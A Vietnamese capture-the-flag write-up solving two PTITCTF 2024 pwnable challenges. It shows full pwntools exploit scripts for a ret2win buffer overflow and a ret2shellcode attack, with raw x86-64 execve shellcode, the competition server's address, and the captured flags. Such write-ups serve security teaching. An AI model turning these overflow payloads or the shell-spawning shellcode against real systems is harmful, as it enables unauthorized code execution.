 # pwn1
## Kịch bản
- Ta phải ghi đè lên biến `a` để control hàm `ptr_func`
![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/V%C3%B2ng%20lo%E1%BA%A1i/Pwnable/image-1.png)
- Chúng ta thấy có hàm `win`, hàm này thực hiện chức năng lấy shell của server để thực hiện chương trình
![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/V%C3%B2ng%20lo%E1%BA%A1i/Pwnable/image-2.png)

-> Ghi đè lên biến `a` để control hàm `ptr_func`, sau đó ghi đè lên địa chỉ hàm `hello` để trỏ về hàm `win`
## Solution
- Check bảo mật của file, ta thấy có dòng `No PIE` tức là địa chỉ giữ nguyên không bị thay đổi -> Có thể tính toán offset 1 cách dễ dàng
![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/V%C3%B2ng%20lo%E1%BA%A1i/Pwnable/image-3.png)
- Ghi đè biến `buffer` lên biến `a`

![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/V%C3%B2ng%20lo%E1%BA%A1i/Pwnable/image-4.png)
![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/V%C3%B2ng%20lo%E1%BA%A1i/Pwnable/image-5.png)

`0x004040F0 - 0x00404060 = 0x90`
-> Ghi đè `144 - 8 (0xDEADBEEF) = 136` bytes + 8 bytes của `0xDEADBEEF`
- Thay thế địa chỉ hàm `ptr_func` để trỏ đến địa chỉ hàm `win`
- Lấy địa chỉ hàm `win` để lấy shell của chương trình
![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/V%C3%B2ng%20lo%E1%BA%A1i/Pwnable/image-6.png)
- Viết code lấy shell chương trình
```Python
from pwn import *

p = process("./pwn1")

#Ghi đè
payload = b"a"*136
payload += p64(0xDEADBEEF)
win = 0x000000000040130c #dia chi ham win
payload += p64(win)

p.sendlineafter(b"Enter your name:", payload)
p.interactive()
```
- Lúc này chúng ta đã lấy được shell của chương trình, tức là đã ghi đè thành công và control được địa chỉ của hàm `ptr_func`
- Sử dụng lệnh `cat flag.txt` ta thu được `PTITCTF{fake_flag}`
![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/V%C3%B2ng%20lo%E1%BA%A1i/Pwnable/image-7.png)
- Tiến hành remote lên server
```Python
from pwn import *

#p = process("./pwn1")
p = remote("14.225.255.41", 13331)

payload = b"a"*136
payload += p64(0xDEADBEEF) #chuyen chuoi hex sang 8 bytes

win = 0x000000000040130c
payload += p64(win)

p.sendlineafter(b"Enter your name: ", payload)
p.interactive()
```
## Flag
```PTITCTF{fl0w_fl0w_0v3rfl0w_g3t_w1n}```
## Kết luận
- Đây là dạng bài `ret2win` khá phổ biến trong mảng `pwnable`
# pwn2
## Solution
- Ta thấy có lệnh `mmap` được dùng để tạo một vùng nhớ ảo với kích thước 50 bytes và cấp quyền đọc, ghi, thực thi cho vùng nhớ đó mà không ánh xạ tới file nào

![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/V%C3%B2ng%20lo%E1%BA%A1i/Pwnable/image-8.png)
- Ghi đè biến `buffer` lên biến `a`

![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/V%C3%B2ng%20lo%E1%BA%A1i/Pwnable/image-9.png)
`0x00404094 - 0x00404060 = 0x34`
-> Vì biến `buffer` đứng trước biến `a` nên chúng ta phải ghi đè 52 bytes + 8 bytes của `0xCAFEBABE`
- Dùng lệnh `file` để kiểm tra tập tin
![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/V%C3%B2ng%20lo%E1%BA%A1i/Pwnable/image-10.png)
- Vì bài này không có hàm `win` nên chúng ta phải chèn `shellcode`. Lệnh `mmap` có thể sử dụng `ret2shellcode` để yêu cầu server gửi flag. Ta có thể sử dụng file [Linux x86-64 shellcode](https://shell-storm.org/shellcode/files/shellcode-806.html)
- Ta có payload `\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05` để tiến hành `ret2shellcode`. Viết code để yêu cầu server gửi flag
```Python
from pwn import *

# p = remote("14.225.255.41", 13333)
p = process("./pwn2")
p.recvuntil("Enter your name: ")
shellcode = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

payload = shellcode
p.sendline(payload)
payload = b"a"*52 + p32(0xCAFEBABE)

p.sendline(payload)
p.interactive()
```
![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/V%C3%B2ng%20lo%E1%BA%A1i/Pwnable/image-11.png)
- Ta đã lấy được shellcode. Remote tới server để lấy flag giống bài `pwn1`
## Flag
```PTITCTF{sk3llc0d3_js_byt3c0d3?}```
## Kết luận
- Đây là dạng bài `ret2shellcode`